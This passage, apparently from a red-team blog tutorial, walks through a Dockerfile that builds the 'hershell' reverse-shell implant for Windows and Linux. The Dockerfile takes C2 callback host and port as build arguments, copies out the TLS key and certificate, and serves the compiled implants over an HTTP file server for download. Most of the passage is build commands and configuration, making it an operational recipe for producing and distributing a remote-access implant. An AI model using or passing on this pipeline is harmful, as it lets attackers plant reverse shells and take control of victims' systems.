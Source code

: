 #### Build Args

Dockerfiles have the ability to use `build-args`, that's what we'll use to give hershell it's home address.  
[*More info*](https://docs.docker.com/engine/reference/builder/#arg).  

We'll be using the following arguments to build our hershell implant:
* C2 IP/Domain name
* C2 Reverse port
* 32/64bit target architecture

Default values to avoid problems when testing.

```
ARG LHOST=127.0.0.1
ARG LPORT=8080
ARG GOARCH=64
```

#### Compilation

For our test, I'll be compiling the Linux and Windows binaries at every docker build. For some reason Windows binaries don't get moved to `/go/bin/` so we'll copy them.  
Since we need to retrieve our certificates, we'll copy these too.  


```
RUN make depends && make windows${GOARCH} LHOST=${LHOST} LPORT=${LPORT} \
    && make linux${GOARCH} LHOST=${LHOST} LPORT=${LPORT} \
    && cp server.key server.pem *.exe /go/bin/ 
    
```

### Sharing

There's hardly an easier method than the classic `python -m SimpleHTTPServer` to serve files using a quick web server.  

Since we're using a golang image, it would be counter-productive to add another language environment to our container. Instead, we'll use `serve`, a [*simple Go file server for command line development use, a la Python's SimpleHTTPServer*](https://github.com/fogleman/serve).  
Perfect :smirk:

We'll simply `go get`-it like our `hershell` package. `serve` uses port 8000 by default.

```
RUN apk add --update make git openssl upx \
    && go get github.com/lesnuages/hershell \
    && go get -u github.com/fogleman/serve

```

Finally, we'll have our Dockerfile `EXPOSE` the port and `serve` our generated binaries and TLS cert&key.

```
EXPOSE 8000
ENTRYPOINT [ "serve", "-dir", "/go/bin/"]
```
